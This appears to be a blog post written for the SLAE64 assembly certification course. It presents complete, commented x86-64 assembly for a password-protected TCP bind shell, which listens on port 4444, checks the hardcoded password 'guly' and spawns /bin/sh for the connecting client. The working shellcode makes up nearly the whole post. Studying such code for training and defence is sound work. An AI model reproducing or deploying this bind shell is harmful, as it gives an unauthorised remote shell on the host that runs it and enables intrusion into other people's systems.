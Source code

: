 ```yaml
---
layout: post
title: SLAE64 Assignment 1 - password protected tcp bindshell
exceprt: asm code and comments for my pass protected tcp bindshell
---
```


    ; name       : bindshell
    ; author     : Sandro "guly" Zaccarini SLAE64-1497
    ; purpose    : this program will open a listening socket on 0.0.0.0, waits for connection
    ;              and spawn a shell if the first 4chars match an hardcoded password
    ;              this code has been written for SLAE64 assignment 1
    ; references : https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ ,
    ;              /usr/include/linux/net.h
    ; license    : CC-BY-NC-SA
    ;
    ; high level flow:
    ; socket -> bind -> listen -> accept -> password check -> dup fd -> spawn /bin//sh
    
    ; known issues:
    ; 1) doesn't handle multiple clients
    ; 2) doesn't handle client-close and so_reuseaddr
    ; 3) doesn't handle "bruteforce", but i see this as a plus: i can try again if i fail
    ;    the password. i'm not worried about bruteforce here
    ; 4) the password cannot be longer than 8bytes, for >4bytes you should change e* to r*
    ; 5) password can only be a valid string
    ; 6) \r\n are not handled, but you can write guly 42 times and first or later you'll have it :)
    
      global _start
    
      section .text
    ; define placed before _start to have it "rel"able without jmp
    PASSWORD: db "guly" ; 0x796c7567
    PORT:     db 0x11,0x5c  ; 4444
    
    ; neat exit on top, not really needed
      exit:
    xor rax,rax
    mov rdi,rax
    mov al,0x3C
    syscall
    
      _start:
    ; create a TCP socket
    ; sock = socket(AF_INET, SOCK_STREAM, 0)
    ; rdi => AF_INET = 2
    ; rsi => SOCK_STREAM = 1
    ; rax => syscall number 0x29
    
    ; starting with a known null at rax,rdx,rdi and rsi
    ; even if not that readable, using push/pop i can save some bytes against mov
    xor rax,rax
    push rax
    pop rdx
    push rax
    pop rdi
    push rax
    pop rsi
    
    ; and because everything's 0x, i can add or inc working with 8/32bit to save some bytes
    add al, 0x29
    add edi, 0x2
    inc esi
    syscall
    
    ; syscall rets socketfd to rax. copy it to edi, we need it for the whole process
    ; again, working with 32bit to save some bytes
    mov edi, eax
    
    
    ; fire a bind() to created socket
    ; bind(sock, (struct sockaddr *)&server, sockaddr_len)
    ;
    ; where struct is built like this:
    ; server.sin_family = AF_INET => 0x2
    ; server.sin_port = htons(PORT) => defined in PORT
    ; server.sin_addr.s_addr = INADDR_ANY => 0.0.0.0 => 0x0
    ; bzero(&server.sin_zero, 8)
    ;
    ; rdi => socketfd, saved at edi actually
    ; rsi => pointer to struct
    ; rdx => addr len, fixed at 0x10
    ; rax => syscall number 0x31
    
    ; create the struct, starting with a known null at rsp
    ; rsp => 0x00000000
    xor rax, rax
    push rax
    ; rsp => 0x0000000000000000
    
    ; mov AF_INET
    mov byte [rsp], 0x2
    ; rsp => 0x00000000000002
    
    ; and mov port
    mov ax, [rel PORT]
    mov word [rsp+0x2], ax
    ; rsp => 0x0000005c110002
    ; and place pointer to rsi
    mov rsi, rsp
    
    ; syscall id to rax using r12 which is zero
    mov r12b, 0x31
    mov eax,r12d
    
    ; addrlen, 16 or 0x10
    mov dl, 0x10
    
    ; and do the bind()
    syscall
    
    ; a bind with no listen is useless, let's listen
    ; listen(sock, MAX_CLIENTS)
    ; 
    ; rdi => socketfd, already in rdi
    ; rsi => 0x1, accept just 1 client
    ; rax => syscall number 0x32
    
    ; start with a null rax/rsi
    xor rax,rax
    push rax
    pop rsi
    add ax, 0x32
    inc esi
    syscall
    
    ; and again, a listen with no accept is useless
    ; 
    ; new = accept(sock, (struct sockaddr *)&client, &sockaddr_len)
    ; rdi => socketfd, already in rdi
    ; rsi => pointer to sockaddr struct
    ; rdx => pointer to addr len, fixed to 0x10 (16)
    ; rax => syscall number 0x2b
    
    ; work with ops as small as possible
    xor rax,rax
    mov al, 0x2b
    ; make some room, hoping that upper stack is empty...
    ; to have an empty 16bytes i've could also:
    ; dec esi ; to have esi 0x0
    ; push rsi
    
    sub rsp, 0x10
    mov rsi, rsp
    mov byte [rsp-1], 0x10
    sub rsp, 0x1
    mov rdx, rsp
    
    syscall
    
    ; save the client socket file descriptor, r9 is unused
    mov r9, rax
    
    ; read password from connected client using read() syscall 0x0
    ; and store in rsp
    ; 
    ; rdi => client fd
    readpass:
    ; syscall is 0x0, so a xor will be perfect
    ; i also need to move a small value to rdx, i zero it too
    xor rdx, rdx
    mov rax,rdx
    
    ; to have some room for the read, i'm pushing a full null here
    push rdx
    
    ; because i known my pass is just 0x4 chars, i force it here.
    ; see description for possible issue
    mov dl, 0x4
    
    ; and put the pointer to the stack to rsi
    mov rsi, rsp
    mov rdi,r9
    
    ; do the read
    syscall
    
    ; move my pass to eax, because i know it will fit. for longer pass, use rax.
    ; for even longer pass, scasd will not be the right op
    mov eax, [rel PASSWORD]
    ; because client's password has been stored in rsp, move a pointer to rdi
    mov rdi,rsp
    ; scasd will check 4byte from eax to edi pointed memory location
    scasd
    
    ; if doesn't match, back to readpass. using this "loop" i can fail password and have
    ; the shell listening again.
    ; as i said in the description, i don't care about bruteforce and that's why no counter
    jne readpass
    
    ; if the pass matches, dup2 to have some fd for the shell
    ; dup2 (new, old)
    ; STDIN
    xor eax,eax
    xor rsi,rsi
    mov rdi, r9
    mov al, 0x21
    syscall
    
    ; STDOUT
    mov al, 0x21
    inc rsi
    syscall
    
    ; STDERR
    mov al, 0x21
    inc rsi
    syscall
    
    ; and finally, execve
    ;
    ; rdi => pointer to filename, /bin//sh null terminated
    ; rsi => pointer to argv
    ; rdx => pointer to envp, null
    ; rax => syscall id 0x3b
    
    ; push a null terminator
    xor rax, rax
    push rax
    ; pointer to 0x0 for envp
    mov rdx,rsp
    
    ; and push /bin//sh in reverse
    mov rbx, 0x68732f2f6e69622f
    push rbx
    
    ; finally store pointer to rdi and rsi
    mov rdi, rsp
    push rax
    push rdi
    mov rsi, rsp
    
    ; do the call
    add rax, 0x3b
    syscall
    
    call exit
    
*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
